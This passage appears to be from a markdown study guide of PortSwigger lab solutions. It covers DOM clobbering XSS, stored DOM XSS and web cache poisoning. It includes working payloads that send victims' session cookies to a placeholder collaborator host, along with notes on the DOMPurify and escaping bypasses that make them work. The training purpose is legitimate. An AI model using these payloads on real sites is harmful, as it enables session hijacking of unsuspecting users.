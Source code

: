 >The modified PortSwigger lab payload assign the `document.location` function to the variable `defaultAvatar` next time page is loaded, because site uses DOMPurify that allows the use of `cid:` protocol that do not URLencode double quotes.  

```
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=document.location=`https://COLLABORATOR.com/?clobber=`+document.cookie//">
```  

[PortSwigger Lab: Exploiting DOM clobbering to enable XSS](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)  

### Stored DOM XSS  

>In the JavaScript `source code`, included script `resources/js/loadCommentsWithVulnerableEscapeHtml.js` we ***identify*** the `html.replace()` function inside the custom `loadComments` function. Testing payloads we see the function only replaces the first occurrence of `<>`.  

![stored dom-xss code replace](images/stored-dom-xss-code.png)  

```html
<><img src=1 onerror=javascript:fetch(`https://COLLABORATOR.com?escape=`+document.cookie)>
```  

>Above payload is stored and any user visiting the comment blog will result in their session cookie being stolen and send to collaborator.  

![stored DOM-XSS json comments](images/stored-dom-xss-json-comments.png)  

>PortSwigger Lab payload: `<><img src=1 onerror=alert()>`.  

[PortSwigger Lab: Stored DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored)  
  
-----

## Web Cache Poison  

[Unkeyed header](#unkeyed-header)  
[Unkeyed Utm_content](#unkeyed-utm_content)  
[Cloaking utm_content](#cloaking-utm_content)  
[Poison ambiguous request](#poison-ambiguous-request)  
[Cache Poison multiple headers](#cache-poison-multiple-headers)  

### Unkeyed header  

>Target use **tracking.js** JavaScript, and is vulnerable to **```X-Forwarded-Host```** or **```X-Host```** header redirecting path, allowing the stealing of cookie by poisoning cache.
>***Identify*** the web cache headers in response and the tracking.js script in the page source code. Exploit the vulnerability by hosting JavaScript and injecting the header to poison the cache of the target to redirect a victim visiting.  

![Tracking `source code` review](images/tracking-code-review.png)  
  